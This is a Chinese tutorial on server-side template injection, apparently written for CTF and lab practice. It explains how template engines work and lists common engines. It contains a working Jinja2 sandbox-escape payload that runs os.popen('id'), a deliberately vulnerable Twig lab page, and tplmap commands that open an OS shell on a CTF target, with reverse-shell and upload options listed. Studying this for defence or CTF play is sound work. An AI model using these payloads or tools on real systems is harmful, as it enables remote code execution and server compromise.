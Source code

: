 # SSTI/沙盒逃逸

**啥是SSTI**
SSTI （服务器端模板注入），指服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题.

检测SSTI代码：
![](img/4.png)

**这种模板请不要认为只存在于 Python 中，请记住，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是**


[文章思路来自大佬文章](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)


**模板引擎**

简单来讲就是：获取数据，讲数据塞到套用的模板里，然后让解析器去将获取到的数据去生成HTML代码，返回给浏览器生成页面。这样就将做好的数据块直接渲染，大大的提升效率。

渲染的区别：

 - 前端渲染：浏览器从服务器获取到信息，可能是 json 等封装好的数据包的数据，也可能是 HTML 的代码。其他都是通过浏览器前端来渲染解析给用户看的，对于后端的压力就小。

 - 后端渲染：浏览器会直接接收到经过服务器计算之后的呈现给用户的最终的HTML字符串，计算就是服务器后端经过解析服务器端的模板来完成的，后端渲染的好处是对前端浏览器的压力较小，主要任务在服务器端就已经完成。

举个例子：

让我们用例子来简析模板渲染。

调用模板：
```html
<html>
<div>{$what}</div>
</html>
```

此时只要对值进行传值，渲染即可。输出。例如：`?what=张三`或者`cookie` 中传值
此时渲染到what变量里，呈现给用户的为

```html
<html>
<div>张三</div>
</html>
```

当然这只是最简单的示例，一般来说，至少会提供分支，迭代。还有一些内置函数等等。

当我们使用用户直接输入的值进行渲染时，会出现奇奇♂怪怪的结果，我们拿 `Twig php`模板举例(其实是我不会搭python的)：
```php
$output = $twig->render( $_GET['name'] , array("name" => $user.name) );
```

这里直接将用户输入的信息发送到 Twig 模板通过 `print或 echo` 打印后。会发现存在 ~~XSS漏洞~~ 。严重的ssti漏洞(代码不规范,开发两行泪)，假设我们的输入为
`?name={{7*7}}`,将会返回49.说明模板执行了我们的代码。
此时，如果用户输入的是恶意代码，同样也会执行。



### SSTI的危害和利用

> 单纯的字符串拼接并不能带来注入问题，关键要看你拼接的是什么，如果是控制语句，就会造成数据域与代码域的混淆，这样就会出洞.

[CTF SSTI(服务器模板注入)](https://www.cnblogs.com/20175211lyz/p/11425368.html)

当然，这种情况一般不属于模板引擎的问题，大多数原因都是开发者并没有很好的处理
可以参考：
[SSTI 怎么产生的](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)
对三种语言进行代码上的解析。

### 手工注入

**常见的模板引擎**

[手工注入的思路](https://xz.aliyun.com/t/3679)

区分使用的模板

![](img/3.png)


- php常用
  - Smarty
    Smarty算是一种很老的PHP模板引擎了，非常的经典，使用的比较广泛

  - Twig(存在漏洞的版本：<=1.9)
    Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

  - Blade
    Blade 是 Laravel 提供的一个既简单又强大的模板引擎。

- Java常用
  - JSP
    这个引擎我想应该没人不知道吧，非常的经典

  - FreeMarker
    FreeMarker是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本（HTML网页、电子邮件、配置文件、源代码等）的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。
  - Velocity

- python 常用
  - Jinja2
    flask jinja2 一直是一起说的，使用非常的广泛
    https://buuoj.cn/challenges
    的 `[BJDCTF 2nd]fake google` 这一关

  - django
    django 应该使用的是专属于自己的一个模板引擎，我这里姑且就叫他 django，我们都知道 django 以快速开发著称，有自己好用的ORM，他的很多东西都是耦合性非常高的，你使用别的就不能发挥出 django 的特性了
  - tornado
    tornado 也有属于自己的一套模板引擎，tornado 强调的是异步非阻塞高并发.


### python

**jinja2**

- jinja2:`尝试{{7*'7'}}回显 7777777`

模板
```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
{% ... %}：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
```

一些简单注入
```
{{config}}可以获取当前设置
{{self}}
{{self.__dict__._TemplateReference__context.config}} 同样可以看到config
```


变量

在模板中添加变量，可以使用（set）语句。

```
{% set name='xx' %}
```



```url
{%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

**flask**



### PHP

**TWIG**


搭建使用 [TWIG v1.11.1版本](https://github.com/twigphp/Twig/releases/tag/v1.11.1)

将下载下来的文件中的`lib`文件提取到PHP目录下
![](img/5.png)

靶场搭建代码:
```php
<?php
//header('Content-type:text/html;charset=utf-8');
@error_reporting(0);

if (isset($_GET['name'])) {
    require_once dirname(__FILE__) . '/lib/Twig/Autoloader.php';
    Twig_Autoloader::register(true);
    try {
        $name = @$_GET['name'];
        $loader = new Twig_Loader_String();
        $twig = new Twig_Environment($loader);
        $result = $twig->render($name);
        echo 'Hello '.$result;
    }catch (Exception $e){
        die('错误提示：'.$e->getMessage());
    }
}
```

访问index.php 输入`?name=张三` 回显出 `hello 张三`。

在目标页面输入






### 使用工具测试注入

[SSTI检测工具](https://github.com/epinna/tplmap)

工具是python2的 (安装的时候可没把我坑惨，好几个教学都说是py3，老复制粘贴了。)

[简单案例](https://www.cnblogs.com/LEOGG321/p/13441283.html)

语句：
```bash
pip install --upgrade pip # 先更新一下pip 如果是最新的就跳过
pip install -r requirements.txt # 安装依赖
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' # 在存在注入或者想要测试的地方加* 和sqlmap很像。

```

可以输入的指令
```
[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

实例:
```bash
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' --engine=Jinja2 --os-shell # 指定目标引擎
```
![](img/1.png)

`ls ../`
发现flag
`cat /flag`
找到文件

![](img/2.png)




















